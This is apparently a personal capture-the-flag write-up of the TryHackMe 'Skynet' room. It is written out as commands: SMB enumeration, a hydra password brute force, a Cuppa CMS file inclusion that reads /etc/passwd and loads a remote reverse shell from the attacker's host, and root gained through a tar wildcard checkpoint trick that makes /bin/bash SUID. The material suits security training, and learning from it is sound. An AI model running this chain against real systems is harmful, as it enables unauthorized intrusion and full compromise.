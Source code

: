 # Skynet [TryHackMe]

<sub>_This is a raw write-up. I write these to document important things for myself to use later if I need it. At the time of writing this, I don't even know if I've solved the challenge myself. You might see a flag somewhere titled **<sup>Assisted by [write-up link]</sup>** which means I used someone else's write-up to complete the challenge. Being a responsible learner, I'm trying my best to accept as little help as possible and only when I'm out of ideas._</sub> 

## _Manual Exploitation_

Let's define the `targ3t` variable to reuse later:

```
targ3t=10.10.177.77
```

Let's perform an `nmap` scan and check for open ports:

```
nmap -A -Pn $targ3t -oN nmap.scan
```

We have six open ports `445`, `110`, `80`, `143`, `139`, `22`. 

Let's start enumerating the first one:

```
nmap --script=smb* -p 445 $targ3t -oN nmap.445.scan
```

It appears that Anonymous login to this share is permitted.

```
smbclient '//$targ3t/Anonymous'
```

Let's see what files we have:

```
smb: \> ls
```

There's an `attention.txt` file and a `logs` directory.

```
get attention.txt
```

It says the following:

```
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
```

In the `logs` directory we have three files:
- `log1.txt`
- `log2.txt`
- `log3.txt`

We will get them all and see what they have:

`log1.txt`:
```
cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989
...
```

Appears to be a wordlist. The other two are empty. Let's check other ports for vulnerabilities for now. From our initial `nmap.scan` we can see that there is an http port `80`, let's see what's on there:

```
firefox $targ3t
```

Appears to be a search engine. Let's put it through `gobuster`:

```
gobuster dir -u http://$targ3t -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.scan
```

There's a path `/squirrellmail` for email login interface and there's a user named `milesdyson` we know from our `nmap.445.scan`. Let's try to brute force it with hydra:

```
hydra -l milesdyson -P log1.txt $targ3t http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:F=incorrect" -vV
```

This reveals the password to be `cyborg007haloterminator`. The very first email reveals the samba password for this user:

```
smbclient '//10.10.177.77/milesdyson' -U milesdyson
```

There is a `notes` directory and inside there is `important.txt` file which reveals a path on this website:

```
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

This path has a static page on it. Let's put it through `feroxbuster`:

```
feroxbuster -u http://$targ3t/45kra24zxs28v3yd -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -o ferox.scan
```

There's a path named `/administrator`. It's supposed to be a Cuppa CMS login interface.

```
searchsploit Cuppa
```

There is one:

```
cp /usr/share/exploitdb/exploits/php/webapps/25971.txt .
```

This details steps for remote file inclusion. 

Let's use one of the examples inside the exploit to test:

```
http://10.10.177.77/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

It prints the `/etc/passwd` file from the server like a charm. Let's get the user flag:

```
http://10.10.177.77/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../home/milesdyson/user.txt
```

We can't get root flag the same way, probably for the lack of privileges, but we can have it include reverse shell on the server. First let's start a server with `reverse.php` already on it:

```
python -m http.server 8080
```

And start a netcat listener:

```
nc -lvnp 9876
```

And request the following url:

```
http://10.10.177.77/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.100.243:8080/reverse.php
```

We got the shell! 

```
whoami
```

Apparently we are `www-data`. Let's try to become root:

```
cat /etc/crontab
```

There's a root owned file `/home/milesdyson/backups/backup.sh` running on crontab.

```
cat /home/milesdyson/backups/backup.sh
```

It is using `tar cf /home/milesdyson/backups/backup.tgz *` to compress `var/www/html`. We can exploit this with that wildcard. Let's go to the directory where the script is going and do the following:

```
cd /var/www/html
echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=sh privesc.sh'
```

And then create the `privesc.sh` script in the same directory:

```
printf "#!/bin/bash\nchmod +s /bin/bash" > privesc.sh
```

After a minute, let's execute:

```
/bin/bash -p
```

We have a root shell.

```
cat /root/root.txt
```

And a root flag!
